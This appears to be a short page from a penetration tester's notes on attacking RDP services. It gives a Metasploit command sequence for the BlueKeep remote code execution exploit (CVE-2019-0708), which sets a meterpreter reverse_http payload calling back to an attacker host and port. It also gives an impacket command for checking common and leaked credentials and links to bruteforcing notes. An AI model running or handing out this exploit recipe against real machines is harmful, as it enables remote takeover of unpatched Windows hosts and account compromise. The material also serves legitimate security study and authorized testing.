 # RDP

## 01 - CVE

### 1.1 - BlueKeep RCE

TODO: Fill this info

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets

set payload windows/x64/meterpreter/reverse_http

set rdp_client_ip <fake_IP>

set rhosts <target_IP>

set lhost <attacker_IP>

set lport <attacker_PORT>

run
```

## 02 - Check Common Credentials

Check some common and leaked credentials performing a password dictionary attack against and RDP service with impacket

```
$ rdp_check.py [<domain>/]<username>@<IP>
```

## 03 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/Graphical Remote Program/RDP|section]] for bruteforcing RDP.

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Enumeration via Network Protocols/Remote Services/Graphical Remote Program/RDP|Active Fingerprinting: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xE - Remote Services Exploitation/Graphical Remote Program/RDP/FreeRDP|Remote Services Exploitation: RDP]]

- [Rapid7: Metasploit Framework - Bluekeep Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.md)

- [Sploitify: Bluekeep CVE-2019-0708](https://sploitify.haxx.it/exploits/2019/CVE-2019-0708/)